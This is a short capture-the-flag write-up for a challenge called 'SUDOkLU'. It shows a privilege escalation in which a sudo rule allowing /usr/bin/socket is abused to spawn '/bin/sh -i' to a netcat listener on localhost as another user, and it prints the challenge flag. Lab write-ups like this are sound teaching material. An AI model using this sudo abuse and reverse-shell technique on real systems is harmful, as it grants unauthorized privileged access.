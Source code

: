 # SUDOkLU

![](2023-05-14-12-19-03.png)

Using `sudo -l`, I see that we can run `/usr/bin/socket` as root. Using this knowledge, we can easily get the flag using two different sessions.

The first session sets up a listener:

```
user@sudoklu:~$ nc -nlvp 1337
Listening on 0.0.0.0 1337
Connection received on 127.0.0.1 40340
$ cd ~
$ ls
flag.txt
$ cat flag.txt
Hero{ch3ck_f0r_m1sc0nf1gur4t1on5}
```

The second session spawns the shell:

```
user@sudoklu:~$ sudo -u privilegeduser /usr/bin/socket -qvp '/bin/sh -i' localhost 1337
inet: connected to localhost port 1337
```
